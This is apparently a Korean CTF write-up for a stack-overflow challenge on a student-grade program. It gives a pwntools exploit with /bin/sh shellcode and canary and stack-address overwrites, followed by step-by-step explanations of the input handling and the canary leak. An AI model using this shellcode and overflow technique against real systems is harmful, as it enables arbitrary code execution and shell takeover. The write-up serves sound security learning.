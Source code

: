 ```python
shellcode = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"
ex = shellcode + b'a' * (40-len(shellcode))
ex += passcode
ex += b'a'*4
ex += b'A+aa'
ex += p32(canary)
ex += b'a'*4
ex += p32(stack)
r.send(ex)

for i in range(6, 10):
    select_option(i)

r.interactive()
```

---

# **설명**

```python
# main printf
r.recvuntil(b'\n\n')

def select_option(num):
    r.recvuntil(b'application\n')
    r.sendline(str(num).encode())
```

- `r.recvuntil(b'\n\n')` 은 main함수의 `Professor's grade ...` 부분을 입력받음
- `select_option` 함수는 c코드의 `menu` 함수의 출력 부분을 입력받고, 입력받은 int값 num을 넘겨줘서 `scanf("%d", &num)` 부분에 입력함
    - 입력받은 num값을 통해서 진행될 함수가 결정됨

**초기값 입력**

```python
# input_operation
select_option(1)
r.recvuntil(b'[student number]\n')
r.sendline(b'1234')  # student->number
r.recvuntil(b'[name]\n')
r.send(b'a'*40) # student->name
r.recvuntil(b'[grade]\n')
r.send(b'b'*5) #student->grade
```

- 처음에는 1을 입력해 `input` 함수를 실행함
- input함수의 초반에 나오는 출력(printf) 부분을 모두 `r.recvuntil(b'[student number]\n')` 으로 받아옴
- `scanf("%d", &student->student_number);` 에 해당하는 값은 `1234` 로 입력함
    - scanf이기 때문에 `sendline` 을 사용해 입력
- `read(0, student->name, 40);` 에 해당하는 값은 `r.send(b'a'*40)` 로 입력함
    - `a*40` 을 40바이트 길이의 배열의 크기에 딱 맞게 입력해줌
- `read(0, student->grade, 5);` 에 해당하는 값은 `r.send(b'b'*5)` 로 입력함
    - `grade` 는 4바이트의 배열이므로 b로 모든 값을 채워주고, canary의 첫 번째 바이트 부분도 b로 변경해줌
